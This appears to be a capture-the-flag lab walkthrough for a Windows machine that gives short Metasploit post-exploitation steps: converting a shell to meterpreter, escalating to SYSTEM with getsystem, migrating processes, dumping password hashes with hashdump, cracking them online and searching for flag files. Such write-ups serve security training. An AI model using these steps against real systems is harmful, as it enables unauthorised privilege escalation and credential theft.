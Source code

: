 ```
```


Select this (use MODULE_PATH). Show options, what option are we required to change?
```
search for shell_to_meterpreter
use it
options
set lhost, sessions
run

```

Once the meterpreter shell conversion completes, select that session for use.

Verify that we have escalated to NT AUTHORITY\SYSTEM. Run getsystem to confirm this. Feel free to open a dos shell via the command 'shell' and run 'whoami'. This should return that we are indeed system. Background this shell afterwards and select our meterpreter session for usage again. 

```
getsystem
getuid
ps
```
List all of the processes running via the 'ps' command. Just because we are system doesn't mean our process is. Find a process towards the bottom of this list that is running at NT AUTHORITY\SYSTEM and write down the process id (far left column).

Migrate to this process using the 'migrate PROCESS_ID' command where the process id is the one you just wrote down in the previous step. This may take several attempts, migrating processes is not very stable. If this fails, you may need to re-run the conversion process or reboot the machine and start once again. If this happens, try a different process next time. 

```
migrate -P process ID
```

No answer needed


## Task 4  Cracking

Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user? 
```
hashdump in the meterpreter shell
```

Copy this password hash to a file and research how to crack it. What is the cracked password?

use [crackstation](https://crackstation.net/)




## Task 5  Find flags!
search -f flag*.txt

